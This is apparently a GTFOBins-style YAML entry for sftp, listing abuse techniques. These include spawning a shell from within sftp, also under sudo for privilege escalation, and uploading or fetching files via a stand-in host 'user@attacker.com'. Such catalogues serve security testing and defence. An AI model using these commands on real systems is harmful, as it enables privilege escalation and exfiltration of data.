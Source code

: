 ```yaml
---
functions:
  execute-interactive:
    - code: |
        HOST=user@attacker.com
        sftp $HOST
        !/bin/sh
  sudo-enabled:
    - code: |
        HOST=user@attacker.com
        sudo sftp $HOST
        !/bin/sh
  upload:
    - description: Send local file to a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        put file_to_send file_to_save
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RHOST=user@attacker.com
        sftp $RHOST
        get file_to_get file_to_save
---
```

